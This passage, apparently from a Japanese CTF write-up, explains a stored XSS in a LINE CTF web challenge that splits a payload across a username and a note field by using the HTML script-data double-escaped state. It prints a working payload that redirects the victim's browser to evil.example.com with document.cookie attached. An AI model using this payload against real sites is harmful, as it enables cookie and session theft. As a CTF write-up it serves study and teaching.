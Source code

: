 - `{{ shared_user_id }}`は`^[a-zA-Z0-9-_]{1,50}$`のバリデーションがあるので使い物にならない。
- `{{ shared_user_name }}`は任意文字列を仕込めるが、長さ上限が16で短い。
- `{{ notes }}`はdictで、展開時に文字列に変換されてレンダリングされる。dict内のkey/valueのvalue部分に好きな文字列を仕込める。
    - ただし、`'`は`\'`にエスケープされてしまうので、ここ単独だけではXSSはできない。

ちょうど`{{ shared_user_name }}`はHTML上部で`{{ notes }}`はHTML下部であるため、間の部分をいい感じにコメントアウトすれば、XSSができそう。

`<script>`周りのコメントアウトの仕様はややこしいが、試行錯誤したら間の部分を[script data double escaped state](https://html.spec.whatwg.org/multipage/parsing.html#script-data-double-escaped-state)にすることで実現できた:

- [&lt;script&gt;要素の構文 - Zenn](https://zenn.dev/qnighy/articles/4f6c728d452295)
    - 日本語の記事だとこれがわかりやすいです

### 攻撃

1. 以下の内容のノートを投稿する:
    ```html
    --> */ };location="https://evil.example.com"+document.cookie</script></div></body></html><!--
    ```
1. `"/*<!--<script>`をdisplayNameにする。
1. botにreportする。

最終的に
```html
<!-- snip -->
        <script nonce="{{ csp_nonce }}">
            const printInfo = () => {
                const sharedUserId = "{{ shared_user_id }}";
                const sharedUserName = ""/*<!--<script>";

            ここの部分が script data double escaped state で無視される

        render([{... snip ... : '--> */ };location="https://evil.example.com"+document.cookie</script></div></body></html><!--'}])
    </script>
{% endblock %}
```
のようなHTMLになり、フラグGET。

### フラグ

```
LINECTF{0n1y_u51ng_m0d3rn_d3fen5e_m3ch4n15m5_i5_n0t_3n0ugh_t0_0bt41n_c0mp13te_s3cur17y}
```


[^bb-1]: 結局この問題では使えなかったが、名前は聞いたことがあったが中身を知らなかった有名脆弱性だったので丁度よい勉強になった。
[^bb-2]: 日本はシェル芸が活発な界隈（？）があるので、資料が豊富でいいですね。この手の問題は日本人が有利かも。
